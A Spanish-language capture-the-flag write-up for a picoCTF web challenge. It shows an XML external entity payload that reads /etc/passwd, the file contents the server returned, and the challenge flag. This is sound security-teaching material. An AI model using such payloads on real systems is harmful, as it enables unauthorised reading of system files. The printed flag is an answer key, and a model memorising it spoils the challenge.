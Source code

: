 
## Descripción

*The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

http://saturn.picoctf.net:50929/

## Pistas

*XML external entity Injection*

## Solución

```
En kali entramos a la instancia, en inspeccionar
le damos en details, luego en resend
despues modificamos el body
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]><data><ID>&example;</ID></data>
Le damos resend 
nos muestra otra pagina que es http://saturn.picoctf.net:50637/data
donde se encuentra la bandera
Invalid ID: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin flask:x:999:999::/app:/bin/sh picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}
```
picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}
## Notas Adicionales 


## Referencias 

http://saturn.picoctf.net:50929/
https://portswigger.net/web-security/xxe
http://saturn.picoctf.net:50929/data
https://www.youtube.com/watch?v=S3awG6dCxS0&ab_channel=CTFDiaryIndonesia